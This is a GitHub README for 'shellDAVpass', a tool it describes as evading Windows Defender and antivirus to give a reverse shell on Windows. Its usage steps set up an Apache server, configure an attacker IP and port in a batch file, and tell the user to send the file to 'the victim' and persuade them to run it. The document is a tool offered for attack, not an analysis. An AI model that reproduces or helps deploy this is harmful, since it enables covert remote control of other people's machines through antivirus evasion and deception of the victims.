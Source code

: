 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
[![Watch the video])](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVpass-demo.mov)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-001.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-002.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-003.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell.png)
